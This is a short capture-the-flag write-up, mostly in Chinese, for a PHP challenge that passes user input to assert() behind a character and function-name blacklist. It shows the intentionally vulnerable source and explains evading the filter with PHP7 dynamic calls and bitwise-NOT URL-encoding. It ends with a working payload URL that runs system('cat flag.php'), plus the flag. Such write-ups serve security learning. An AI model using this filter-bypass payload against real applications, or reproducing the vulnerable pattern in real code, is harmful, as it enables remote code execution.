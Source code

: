 # hate_php

```php
<?php
error_reporting(0);
if(!isset($_GET['code'])){
    highlight_file(__FILE__);
}else{
    $code = $_GET['code'];
    if (preg_match('/(f|l|a|g|\.|p|h|\/|;|\"|\'|\`|\||\[|\]|\_|=)/i',$code)) { 
        die('You are too good for me'); 
    }
    $blacklist = get_defined_functions()['internal'];
    foreach ($blacklist as $blackitem) { 
        if (preg_match ('/' . $blackitem . '/im', $code)) { 
            die('You deserve better'); 
        } 
    }
    assert($code);
}
```

P师傅博客中提过PHP7前是不允许用`($a)();`这样的方法来执行动态函数的，但PHP7中增加了对此的支持。所以，我们可以通过`('phpinfo')();`来执行函数，第一个括号中可以是任意PHP表达式。

`(~%8F%97%8F%96%91%99%90)();`即可执行phpinfo，所以仿照构造exp

```php
<?php
echo urlencode(~'system');
echo '------';
echo urlencode(~'cat flag.php');

--------
%8C%86%8C%8B%9A%92------%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F
```

最终exp:

```http
http://localhost/?code=(~%8C%86%8C%8B%9A%92)(~%9C%9E%8B%DF%99%93%9E%98%D1%8F%97%8F)
```

flag为`flag{9d30951bedb2625476e799268d6c05dc}`